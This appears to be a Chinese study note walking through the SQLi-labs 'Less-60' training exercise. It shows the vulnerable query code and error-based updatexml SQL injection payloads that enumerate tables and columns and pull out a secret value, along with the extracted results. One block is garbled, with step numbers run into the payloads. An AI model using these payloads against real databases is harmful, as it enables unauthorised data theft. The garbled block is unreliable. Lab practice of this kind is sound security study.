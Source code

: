 ```yaml
---
title: less60
url: https://www.yuque.com/u29002979/ep2zrx/qukek98oikfag9kv
---
```


```bash
$id = '("'.$id.'")';
// Querry DB to get the correct output
$sql="SELECT * FROM security.users WHERE id=$id LIMIT 0,1";
```

闭合方式")

`?id=1") and 1=1--+`
`?id=1") and 1=2--+`

<a name="OK6A0"></a>

# 11 1爆破数据表2?id=-1 and updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x7e),1) -- +3数据表：codgf1m6wa4​5爆破字段名6?id=-1 and updatexml(1,concat(0x7e,(select  group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='codgf1m6wa'),0x7e),1) -- +7字段：secret_JGAS8​9获取密码10?id=-1 and updatexml(1,concat(0x7e,(select secret_JGAS from codgf1m6wa),0x7e),1) -- +11密码：JvKSBvmuHkWi8od1IZnHs94ebash

```bash
爆破数据表
?id=-1") and updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x7e),1) -- +
数据表：kpt3mvazyg

爆破字段名
?id=-1") and updatexml(1,concat(0x7e,(select  group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='kpt3mvazyg'),0x7e),1) -- +
字段：secret_NRFF

获取密码
?id=-1") and updatexml(1,concat(0x7e,(select secret_NRFF from kpt3mvazyg),0x7e),1) -- +
密码：vI7A4DnWuwDoNK8NMXKQyYHm
```
